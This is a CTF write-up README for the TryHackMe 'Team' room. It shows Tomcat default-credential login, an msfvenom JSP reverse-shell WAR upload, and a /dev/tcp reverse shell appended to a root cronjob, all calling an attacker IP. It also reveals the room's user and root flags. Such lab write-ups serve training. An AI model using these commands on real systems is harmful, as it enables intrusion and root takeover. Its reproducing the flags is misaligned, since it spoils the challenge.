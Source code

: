 # Team CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Team** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/bsidesgtthompson). 
---
Using nmap to find open ports

![nmap](imgs/nmap.png "nmap")

Open ports: `22 ssh`, `8080 http` and `8009 ajp13`

Default Apache Tomcat webpage:

![website](imgs/website.png "website")

Using gobuster to enumerate hidden directories

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.99.7:8080

```

![gobuster](imgs/gobuster.png "gobuster")

Found `/manager` but its protected by login form

![login](imgs/login.png "login")

Deafult credentials doesn't seem to work, but cancelling reveals more info

![cancel](imgs/cancel.png "cancel")

Now trying other default credentials suggested by the site, `tomcat`:`s3cret`, and it works

We can see admin panel

![cancel](imgs/cancel.png "cancel")

We are able to submit `.war` files, so i will create a payload that executes reverse shell using `msfvenom`

```
msfvenom -p java/jsp_shell_reverse_tcp LPORT=9999 LHOST=<ATTACKER IP> -f war -o shell.war  
```

Now i upload `shell.war`, start nc listener and go to `http://IP:8080/shell`

![shell](imgs/shell.png "shell")

![user](imgs/user.png "user")

> [!IMPORTANT]
> User flag from `user.txt`: `39400c90bc683a41a8935e4719f181bf`

Now checking `id.sh`, the script is run as cronjob so it is our privilage escalation factor

![cron](imgs/cron.png "cron")

Using simple command to generate another reverse shell this time as root

```
echo "sh -i >& /dev/tcp/<ATTACKER IP>/4444 0>&1" >> id.sh
```

Now we need to wait for script to execute

![root](imgs/root.png "root")

> [!IMPORTANT]
> Root flag from `root.txt`: `d89d5391984c0450a95497153ae7ca3a`

# MACHINE PWNED
